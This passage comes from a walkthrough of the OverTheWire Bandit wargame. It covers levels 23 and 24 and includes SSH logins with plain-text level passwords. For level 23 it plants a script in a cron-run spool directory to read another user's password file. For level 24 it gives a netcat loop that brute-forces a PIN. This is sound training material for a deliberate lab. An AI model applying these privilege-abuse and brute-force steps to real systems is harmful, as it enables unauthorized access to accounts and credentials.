 
# Read off the file
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
</pre>
### Level 23
<pre>
ssh -p 2220 bandit23@bandit.labs.overthewire.org
	jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

cd /etc/cron.d
ls
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh 
cd /var/spool/bandit24

# We see that the script runs all scripts within /var/spool/bandit24 as bandit24
# thus we need to write a script to extract the password from /etc/bandit_pass/bandit24

# Use nano to write the following script to /var/spool/bandit24/script.sh
# Note that there is no point printing debugging statements because all std output is redirected to Null by the cron job
"""
#!/bin/bash
cat /etc/bandit_pass/bandit24 > bandit24pass 
"""

chmod +x script.sh
# Wait a while for the cronjob to run (~ 1 min or so), keep checking if bandit24pass is generated yet
cat bandit24pass
</pre>
### Level 24
<pre>
ssh -p 2220 bandit24@bandit.labs.overthewire.org
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


# Create a tmp directory and cd there to do all the work
# Create a bash script to bruteforce the daemon (saved as bandit.sh)
"""
#!/bin/bash
for i in {1000..10000}
do
	echo $i
	printf "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i\n" | netcat localhost 30002
done
"""
